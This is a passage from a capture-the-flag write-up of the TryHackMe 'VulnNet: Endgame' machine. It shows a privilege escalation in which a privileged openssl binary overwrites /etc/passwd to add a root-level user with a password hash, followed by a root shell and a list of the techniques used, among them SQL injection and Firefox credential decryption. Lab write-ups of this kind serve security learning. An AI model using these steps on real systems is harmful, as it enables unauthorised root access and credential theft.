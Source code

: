 > Note: Remember to escape special characters in `echo`, like `$`.

- Overwrite the original `/etc/passwd` via `/home/system/Utils/openssl`:

```
system@vulnnet-endgame:~/Utils$ cat /tmp/passwd.bak | ./openssl enc -out /etc/passwd

system@vulnnet-endgame:~/Utils$ cat /etc/passwd
[...]
pwned:$1$.YB66nk1$8Gsn7z0GJMm8eH8D95k0K1:0:0:root:/root:/bin/bash
```

We successfully overwritten the `/etc/passwd`!!

Now let's **Switch User** to our newly created user!

```
system@vulnnet-endgame:~/Utils$ su pwned
Password: 
root@vulnnet-endgame:/home/system/Utils# whoami;hostname;id;ip a
root
vulnnet-endgame
uid=0(root) gid=0(root) groups=0(root)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:58:40:e8:92:69 brd ff:ff:ff:ff:ff:ff
    inet 10.10.214.82/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2804sec preferred_lft 2804sec
    inet6 fe80::58:40ff:fee8:9269/64 scope link 
       valid_lft forever preferred_lft forever
```

And I'm root! :D

# Rooted

**root.txt:**
```
root@vulnnet-endgame:/home/system/Utils# cat /root/thm-flag/root.txt 
THM{Redacted}
```

# Conclusion

What we've learned:

1. Subdomain Enumeration
2. Directory Enumeration
3. API Enumeration
4. SQL Injection
5. Hash Cracking
6. Browser Enumeration (FireFox)
7. Privilege Escalation via Decrypting FireFox's `login.json`
8. Privilege Escalation via Modifying `/etc/passwd` with `openssl`